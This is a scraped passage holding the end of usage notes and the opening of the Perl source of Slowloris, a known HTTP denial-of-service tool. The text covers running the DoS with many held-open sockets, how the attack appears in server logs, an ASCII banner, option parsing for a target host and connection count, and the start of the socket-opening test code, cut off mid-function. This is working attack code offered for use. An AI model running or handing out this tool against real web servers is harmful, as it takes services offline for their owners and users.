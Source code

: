 better if run from a *Nix box than from Windows.  I would guess that it's probably to do with the fact that Windows limits the amount of open sockets you can have at once to a fairly small number.  If you find that you can't open any more ports than ~130 or so on any server you test - you're probably running into this "feature" of modern operating systems.  Either way, this program seems to work best if run from FreeBSD.    Once you stop the DoS all the sockets will naturally close with a flurry of RST and FIN packets, at which time the web server or proxy server will write to it's logs with a lot of 400 (Bad Request) errors.  So while the sockets remain open, you won't be in the logs, but once the sockets close you'll have quite a few entries all lined up next to one another.  You will probably be easy to find if anyone is looking at their logs at that point - although the DoS will be over by that point too.  =head1 What is a slow loris?  What exactly is a slow loris?  It's an extremely cute but endangered mammal that happens to also be poisonous.  Check this out:  http://www.youtube.com/watch?v=rLdQ3UhLoD4V#!/usr/bin/perl -w use strict; use IO::Socket::INET; use IO::Socket::SSL; use Getopt::Long; use Config;  $SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors  print &lt;&lt;EOTEXT; CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc:::: CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc::: CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {     print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }